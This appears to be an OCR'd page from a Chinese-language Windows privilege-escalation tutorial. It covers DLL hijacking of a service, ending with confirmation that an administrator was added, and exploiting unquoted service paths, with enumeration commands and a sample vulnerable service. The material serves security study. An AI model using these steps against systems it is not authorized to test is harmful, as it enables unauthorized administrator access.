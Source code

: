 重启服务，dll被加载，代码被运行

```armasm
Restart-Service BetaService
net user
net localgroup administrators
```

添加管理员成功

### 16.2.3 无引号文件路径

路径中存在空格时且路径没有被引号包裹，文件执行顺序如下：

```armasm
C:\Program Files\My Program\My Service\service.exe
顺序：
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

枚举服务和路径信息（powershell）

```armasm
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

枚举没有引号路径的服务（cmd）

```armasm
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

发现服务

```armasm
Name                                       PathName                                                                   
...                                                                                                       
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

测试起是否可以被启动和停止

```armasm
Start-Service GammaService
Stop-Service GammaService
```

文件执行顺序

```armasm
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

